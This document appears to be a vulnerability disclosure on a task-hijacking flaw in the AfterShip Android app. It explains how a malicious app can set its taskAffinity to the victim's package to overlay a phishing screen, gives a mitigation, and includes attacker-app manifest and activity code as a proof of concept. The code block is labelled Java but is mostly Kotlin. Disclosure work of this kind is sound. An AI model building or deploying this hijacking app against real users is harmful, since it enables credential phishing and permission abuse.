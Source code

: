 # Android Manifest Misconfiguration Leading to Task Hijacking in AfterShip app(com.aftership.AfterShip) 

## Description

Task Hijacking allows malicious apps to inherit permissions of vulnerable apps and is usually used for phishing login credentials of victims,its used by malicious actors to manipulate or take over tasks in Android, leading to significant vulnerabilities, This vulnerability applies to all Android versions before Android 11.

## Steps To Reproduce:

1. The user downloads a malicious app
2. The user uses the malicious apps
3. The user uses the victim app. The activity seen at this time is not the original activity of the app, but the phishing activity of the malicious app
4. The user thinks that he is using the victim app (actually a malicious app) to enter personal information, resulting in account information leakage or inducing the user to grant the malicious app corresponding permissions.

## Video Proof of Concept

![caller.id.phone.number.block](./video/com.aftership.AfterShip.gif)

It can be seen that after executing the malicious program, the task is successfully hijacked, and the malicious application is actually opened when the victim application is launched.

## Principle

Because the taskAffinity attribute of most applications is not set and defaults to its package name, we can set a taskAffinity value that is consistent with the package name of the application we are attacking in a hackactivity attribute of the malware. Then, when the hackactivity starts, it will create a task stack that is the same as the taskAffinity attribute of the victim application. At that time, it will share a task stack with the victim's application and be located at the root of the task stack. When we start the victim application, the victim's task will be brought to the foreground, and then the hackactivity at the root will be brought to the foreground. Then, when we open the victim application, the activity we see is not the original activity of the application, but our hackactivity. Then we can design a phishing page in the hackactivity to implement a phishing attack, obtain the user's privacy and induce the user to grant the malware corresponding permissions.





## Mitigation

To prevent this attack you will need to set taskAffinity property of the application activities to taskAffinity= "" in the <activity> tag of the AndroidManifest.xml to force the activities to use a randomly generated task affinity, or set it at the <application> tag to enforce on all activities in the application.

## Attacker App Code

### Android Manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.strandhogg.v1"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme"
        android:taskAffinity="com.aftership.AfterShip">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

### Main Activity

```java
import android.os.Bundle
import android.content.Intent;
import androidx.appcompat.app.AppCompatActivity


class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        moveTaskToBack(true);
    }
    override fun onResume() {
        super.onResume()
        setContentView(R.layout.activity_main)
    }
}
```

### Impact

Due to a misconfiguration in the Android manifest file, it was possible to a perform a task hijacking attack. An attacker could create a malicious mobile application which could hijack a legitimate app and steal any potential sensitive information when installed on the victim's device.



## References

- https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06